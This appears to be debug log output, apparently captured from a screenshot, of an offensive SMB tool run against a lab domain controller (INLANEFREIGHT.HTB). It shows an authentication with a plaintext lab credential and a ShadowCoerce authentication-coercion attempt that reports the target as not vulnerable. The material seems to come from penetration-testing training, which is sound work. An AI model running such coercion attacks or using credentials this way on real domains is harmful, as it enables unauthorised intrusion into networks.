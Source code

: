 ```shell-session
 'kerberos': False,
 'laps': None,
 'list_modules': False,
 'local_auth': False,
 'local_groups': None,
 'loggedon_users': False,

<SNIP>

 'wmi': None,
 'wmi_namespace': 'root\\cimv2'}
DEBUG:asyncio:Using selector: EpollSelector
DEBUG Using selector: EpollSelector
DEBUG:root:Running
DEBUG Running
DEBUG:root:Started thread poller
DEBUG Started thread poller
SMB         172.16.10.3     445    DC01             [*] Windows Server 2016 Standard 14393 x64 (name:DC01) (domain:INLANEFREIGHT.HTB) (signing:True) (SMBv1:True)
DEBUG:root:add_credential(credtype=plaintext, domain=INLANEFREIGHT, username=carole.holmes, password=Y3t4n0th3rP4ssw0rd, groupid=None, pillaged_from=None) => None
DEBUG add_credential(credtype=plaintext, domain=INLANEFREIGHT, username=carole.holmes, password=Y3t4n0th3rP4ssw0rd, groupid=None, pillaged_from=None) => None
SMB         172.16.10.3     445    DC01             [+] INLANEFREIGHT.HTB\carole.holmes:Y3t4n0th3rP4ssw0rd 
DEBUG:root:Connecting to ncacn_np:172.16.10.3[\PIPE\FssagentRpc]
DEBUG Connecting to ncacn_np:172.16.10.3[\PIPE\FssagentRpc]
DEBUG:root:Something went wrong, check error status => SMB SessionError: STATUS_OBJECT_NAME_NOT_FOUND(The object name is not found.)
DEBUG Something went wrong, check error status => SMB SessionError: STATUS_OBJECT_NAME_NOT_FOUND(The object name is not found.)
DEBUG:root:Connected!
DEBUG Connected!
DEBUG:root:Binding to a8e0653c-2744-4389-a61d-7373df8b2292
DEBUG Binding to a8e0653c-2744-4389-a61d-7373df8b2292
DEBUG:root:Something went wrong, check error status => SMB SessionError: STATUS_INVALID_PARAMETER(An invalid parameter was passed to a service or function.)
DEBUG Something went wrong, check error status => SMB SessionError: STATUS_INVALID_PARAMETER(An invalid parameter was passed to a service or function.)
DEBUG:root:Successfully bound!
DEBUG Successfully bound!
DEBUG:root:ipsc = False
DEBUG ipsc = False
DEBUG:root:Using the default IsPathSupported
DEBUG Using the default IsPathSupported
DEBUG:root:Sending IsPathSupported!
DEBUG Sending IsPathSupported!
DEBUG:root:Something went wrong, check error status => SMB SessionError: STATUS_INVALID_PARAMETER(An invalid parameter was passed to a service or function.)
DEBUG Something went wrong, check error status => SMB SessionError: STATUS_INVALID_PARAMETER(An invalid parameter was passed to a service or function.)
DEBUG:root:Attack may of may not have worked, check your listener...
DEBUG Attack may of may not have worked, check your listener...
DEBUG:root:Target not vulnerable to ShadowCoerce
DEBUG Target not vulnerable to ShadowCoerce
DEBUG:root:Stopped thread poller
DEBUG Stopped thread poller
```
